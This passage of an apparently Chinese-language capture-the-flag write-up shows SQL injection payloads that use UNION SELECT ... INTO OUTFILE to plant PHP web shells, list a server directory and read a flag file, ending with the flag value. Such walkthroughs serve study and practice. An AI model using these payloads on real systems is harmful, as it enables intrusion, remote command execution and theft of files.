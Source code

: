 ![](img/11-5.png)

3. 查看上一级目录中所有文件和目录：
   重新输入 `cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell3.php'-- -`
   打开 `/shell3.php?id=0`
   发现该目录下的文件有 `flag.txt html`，找到 flag 的路径。

![](img/11-6.png)

![](img/11-7.png)

4. 重新输入 `cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell4.php'-- -`
   打开 `/shell4.php?id=0`
   得到 flag：`d2b5b27ae688b6a0f1d21b7d3a0798cd`
   
![](img/11-8.png)
